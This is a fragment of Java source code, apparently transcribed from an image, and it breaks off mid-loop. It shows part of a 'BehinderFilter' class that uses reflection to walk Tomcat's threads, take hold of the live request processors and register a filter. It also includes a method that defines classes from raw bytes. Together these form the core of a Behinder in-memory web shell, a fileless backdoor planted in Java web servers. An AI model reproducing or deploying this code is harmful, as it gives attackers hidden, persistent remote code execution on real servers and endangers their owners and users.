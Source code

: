 ```java
        try {
            BehinderFilter behinderMemShell = new BehinderFilter();
            if (behinderMemShell.req != null && behinderMemShell.resp != null){
                behinderMemShell.addFilter();
            }
        } catch (Exception e){
        }
    }


    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);
    }

    public String md5(String s) {
        String ret = null;
        try {
            MessageDigest m = MessageDigest.getInstance("MD5");
            m.update(s.getBytes(), 0, s.length());
            ret = (new BigInteger(1, m.digest())).toString(16).substring(0, 16);
        } catch (Exception var4) {
        }
        return ret;
    }

    public BehinderFilter()  {
        this.setParams();
    }

    public BehinderFilter(ClassLoader c) {
        super(c);
        this.setParams();
    }


    public void setParams(){
        try {
            boolean flag = false;
            Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(),"threads");
            for (int i=0;i<threads.length;i++){
                Thread thread = threads[i];
                if (thread != null){
                    String threadName = thread.getName();
                    if (!threadName.contains("exec") && threadName.contains("http")){
                        Object target = getField(thread,"target");
                        Object global = null;
                        if (target instanceof Runnable){
                            try {
                                global = getField(getField(getField(target,"this$0"),"handler"),"global");
                            } catch (NoSuchFieldException fieldException){
                                fieldException.printStackTrace();
                            }
                        }
                        if (global != null){
                            List processors = (List) getField(global,"processors");
                            for (i=0;i<processors.size();i++){
                                RequestInfo requestInfo = (RequestInfo) processors.get(i);
                                if (requestInfo != null){
                                    org.apache.coyote.Request tempRequest = (org.apache.coyote.Request) getField(requestInfo,"req");
```